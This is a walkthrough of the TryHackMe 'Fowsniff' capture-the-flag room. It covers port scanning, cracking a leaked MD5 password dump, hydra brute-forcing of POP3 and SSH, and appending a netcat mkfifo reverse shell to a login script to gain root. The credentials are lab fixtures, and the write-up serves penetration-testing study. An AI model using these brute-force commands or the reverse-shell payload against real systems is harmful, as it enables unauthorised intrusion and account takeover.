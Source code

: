 # Fowsniff CTF

**Room Link:** [https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

The homepage mentioned there was an attack. If you go to their twitter page the hacker says he dumped all the users password in pastebin. When I did this writeup the pastebin had been taken down so I just took it from another walkthrough.

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

```



**Kali**



```
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (15) (1) (2).png" alt=""><figcaption></figcaption></figure>



```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```







### TCP/110 - POP3

**Kali**

```
hydra -L users2 -P pass.txt -f $VICTIM pop3 -V
```

<figure><img src="../../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 1
```

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 2
```

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -L users2 -p "S1ck3nBluff+secureshell" $VICTIM -t4 ssh
```

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
id
groups
find / -type f -group users 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f" >> /opt/cube/cube.sh
```

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>





























